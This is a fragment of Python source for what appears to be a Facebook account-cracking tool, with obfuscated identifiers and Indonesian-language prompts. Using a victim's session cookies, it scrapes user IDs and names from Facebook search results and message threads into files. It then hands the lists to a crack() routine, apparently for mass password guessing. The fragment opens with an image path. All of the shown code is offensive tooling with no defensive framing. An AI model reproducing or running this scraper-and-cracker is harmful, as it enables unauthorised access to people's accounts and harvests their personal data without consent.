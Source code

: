     for _azimvau_dev_ in _req_ses_dev_.find_all("a",href=True):
        print ("\r%s [%s•%s] %sTAKING %s%s ID"%(H,P,H,K,H,len(_azimvau_dapunta_(_file_).read().splitlines())),end='');sys.stdout.flush()
        if "<img alt=" in str(_azimvau_dev_):
            if "home.php" in str(_azimvau_dev_["href"]):continue
            else:
                _str_dev_ = str(_azimvau_dev_["href"])
                if "profile.php" in _str_dev_:
                    _name_ = _azimvau_dev_.find("img").get("alt").replace(", profile picture","");_find_ = bs4.re.findall("/profile\.php\?id=(.*?)&",_str_dev_)
                    if len (_find_) !=0:
                        _user_ = "".join(_find_)
                        if _user_ in _azimvau_dapunta_(_file_).read():pass
                        else:_azimvau_dapunta_(_file_,"a+").write("%s•%s\n"%(_user_,_name_))
                else:
                    _find_ = bs4.re.findall("/(.*?)\?",_str_dev_);_name_ = _azimvau_dev_.find("img").get("alt").replace(", profile picture","")
                    if len(_find_) !=0:
                        _user_="".join(_find_)
                        if _user_ in _azimvau_dapunta_(_file_).read():pass
                        else:_azimvau_dapunta_(_file_,"a+").write("%s•%s\n"%(_user_,_name_))
        if "See More Results" in _azimvau_dev_.text:cari_nama(_file_,_cookies_,_azimvau_dev_["href"])


class dump_pesan:
    def __init__(self,_cookies_,_nama_,_id_):
        self.cookies = _cookies_;self.id = _id_;self.files = (_nama_+'.json').replace(" ","_");_azimvau_dapunta_(self.files,"w").close();self.dump("https://m.facebook.com/messages")
    def dump(self,url):
        _req_ses_dev_ = bs4.BeautifulSoup(_req_get_(url,headers=header_nama,cookies=self.cookies).text,"html.parser")
        for _dev_ in _req_ses_dev_.find_all("a",href=True):
            if "/messages/read" in _dev_.get("href"):
                _soup_ = bs4.re.findall("cid\.c\.(.*?)%3A(.*?)&",_dev_.get("href"))
                try:
                    for _user_ in list(_soup_.pop()):
                        if _user_ in self.id:continue
                        else:
                            if "Facebook user" in _dev_.text.lower():continue
                            _azimvau_dapunta_(self.files,"a+").write("%s•%s\n"%(_user_,_dev_.text));print("\r%s [%s•%s] %sTAKING %s%s ID"%(H,P,H,K,H,len(_azimvau_dapunta_(self.files).read().splitlines())),end='');sys.stdout.flush()
                except Exception as e:continue
            if "See Older Messages" in _dev_.text:self.dump("https://m.facebook.com/"+_dev_.get("href"))
        _buka_file_ = _azimvau_dapunta_(self.files,'r').read().splitlines();print("\n%s [%s•%s] %sALL ID : %s"%(H,P,H,K,str(len(_buka_file_))))
        return crack(self.files)



def file():
	try:
		print("")
		xc = input('%s [%s•%s] %sFILE : %s'%(H,P,H,K,H))
		id = open(xc).read().splitlines()
		print('%s [%s•%s] %sALL ID : %s%s'%(H,P,H,O,H,len(id)))
		return crack(xc)
	except FileNotFoundError:
		print("%s [%s!%s] %sFILE NOT EXISTING"%(M,P,M,M))
		file()
		